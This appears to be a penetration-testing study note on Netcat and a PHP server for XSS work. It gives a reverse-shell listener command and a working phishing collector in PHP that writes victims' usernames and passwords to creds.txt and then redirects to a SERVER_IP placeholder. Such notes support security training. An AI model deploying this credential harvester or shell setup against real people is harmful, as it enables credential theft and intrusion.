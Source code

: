 # Netcat
Tool for TCP and UDP connections and listens. To kill interfering process, check [[Process Control]]

---
## Basic Commands
Setup reverse shell listener on attacker
```bash
nc -lnvp 1234
```

### Options

| <div style="width:140px">**Flag**</div> | **Description**        |
| --------------------------------------- | ---------------------- |
| `-n`                                    | Disable DNS resolution |

---

# PHP Server for [[XSS]]
Instead of a basic Netcat server, we may want to run a listener for a PHP server to add functionality.

First, add some code to `index.php` to create the phish:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Then listen on the same directory:
```bash
php -S 0.0.0.0:80
```


